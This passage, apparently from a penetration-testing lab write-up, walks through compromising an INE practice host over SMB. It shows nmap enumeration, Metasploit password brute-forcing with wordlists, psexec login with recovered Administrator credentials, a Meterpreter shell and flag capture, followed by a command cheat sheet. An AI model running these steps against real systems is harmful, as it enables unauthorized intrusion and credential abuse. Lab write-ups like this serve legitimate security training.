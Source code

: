 ```
# Output: 4 open ports identified, SMB service confirmed

# [2024-07-10 13:32:15] Protocol enumeration
nmap -p445 --script smb-protocols demo.ine.local
# Output: Multiple SMB protocol versions detected

# [2024-07-10 13:35:42] Credential attack initiated
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
# Output: 4 successful credential combinations identified

# [2024-07-10 13:39:18] System exploitation
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
# Output: Meterpreter session 1 opened successfully

# [2024-07-10 13:41:33] Post-exploitation
shell
cd /
dir
type flag.txt
# Output: Flag e0da81a9cd42b261bc9b90d15f780433 captured
```

### Screenshots and Evidence:
1. **nmap_scan_results.png** - Initial port discovery
2. **smb_protocols_enum.png** - Protocol version enumeration
3. **credential_discovery.png** - Successful authentication results
4. **meterpreter_session.png** - System exploitation success
5. **flag_capture.png** - Objective completion proof

### Impact Assessment:
- **Confidentiality:** COMPROMISED - Full file system access achieved
- **Integrity:** AT RISK - Administrative privileges allow system modification
- **Availability:** AT RISK - System shutdown/restart capabilities confirmed
```

---

## 📊 Quick Command Reference

### **🚀 Essential Commands Summary:**

#### **Discovery and Enumeration:**
```bash
nmap -p445 target_ip                          # Basic SMB port scan
nmap --script smb-protocols target_ip         # Protocol enumeration
nmap --script smb-enum-shares target_ip       # Share enumeration
nmap --script smb-vuln-* target_ip           # Vulnerability detection
```

